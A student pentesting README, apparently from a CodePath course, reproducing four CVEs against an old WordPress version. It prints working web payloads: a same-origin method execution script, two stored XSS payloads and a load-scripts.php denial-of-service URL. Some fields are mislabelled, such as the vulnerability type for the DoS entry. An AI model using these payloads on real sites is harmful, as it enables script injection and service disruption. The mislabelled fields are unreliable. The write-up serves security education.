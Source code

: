 # CodePathweek7
# Project 7 - WordPress Pentesting

Time spent: 5 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

Exploit 1. CVE-2016-4566 Upload Same Origin Method Execution (SOME)
  - [ ] Summary: 
    - Vulnerability types: Same Origin Method Execution (SOME)
    - Tested in version: 4.2
    - Fixed in version: 4.2.8
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit1.gif
  - [ ] Steps to recreate: 
        1. Reply to an existing comment
        
        2. Using Javascript use the following code:
            <button onclick="fire()">Click</button>
            <script>
            function fire() {
             open('javascript:setTimeout("location=\'http://example.com/wp-includes/js/plupload /plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
              setTimeout('location="http://example.com/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
            }
            </script>
            
        3. The following script will use an exploit that will create a malicious button that when clicked will take the user to a fake    website example.com
        
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/37382/)
    
Exploit 2. CVE-2015-3440 Unauthenticated Stored Cross Site-Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross Site-Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit2.gif
  - [ ] Steps to recreate: 
        1. Create a new post
        
        2. In the post body, write this code:
            a) It must contain an XSS injection content, followed by at least 64 kilobytes of text
                Example: 
                    <a title='x onmouseover=alert(unescape(/hello%20world/.source))
                    style=position:absolute;left:0;top:0;width:5000px;height:5000px
                    AAAAAAAA.. (for 64 kb)....AAAAAA
                    
        3. Save and reload the site
        
        4. WordPress will truncate the comment allowing the injected content to be posted on the site
            a) A pop up message of "Hello World" will pop up on mouse move
            
  - [ ] Affected source code:
    - [Link 2](https://core.trac.wordpress.org/changeset/32299)
    - [Link 2.1] (https://www.exploit-db.com/exploits/36844/)
    - [Link 2.2] (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3440)
    
Exploit 3. CVE-2018-6389 Application Denial of Service (DoS)
  - [ ] Summary: 
    - Vulnerability types: 4.2
    - Tested in version: 4.9.4
    - Fixed in version: unpacthed
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit3.gif
  - [ ] Steps to recreate: 
        Depending upon the plugins and modules you have installed, the load-scripts.php file selectively calls required JavaScript files by passing their names into the "load" parameter, separated by a comma, like in the following URL:
        
        https://your-wordpress-site.com/wp-admin/load-scripts.php?c=1&load=editor,common,user-profile,media-widgets,media-gallery
  
        While loading the website, the 'load-scripts.php' (mentioned in the head of the page) tries to find each JavaScript file name given in the URL, append their content into a single file and then send back it to the user's web browser.
  - [ ] Affected source code:
    - [Link 3](https://wpvulndb.com/vulnerabilities/9021)
    
Expoint 4: CVE-2017-6817 Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types:  Cross-Site Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
        1. Create a new post
        2. In the post body, write this code:
            [embed src='https://youtube.com/embed/12345\x3csvg onload=alert("No Body Is Safe!")\x3e'][/embed]
        3. Save your changes, when you go to the post on the site you will see an embeded link
        4. Click the embeded link and a alert window will pop up with the message “No Body Is Safe!”
  - [ ] Affected source code:
    - [Link 4](https://wpvulndb.com/vulnerabilities/8768) 
    
## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2018 Oleksandr Bihary

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
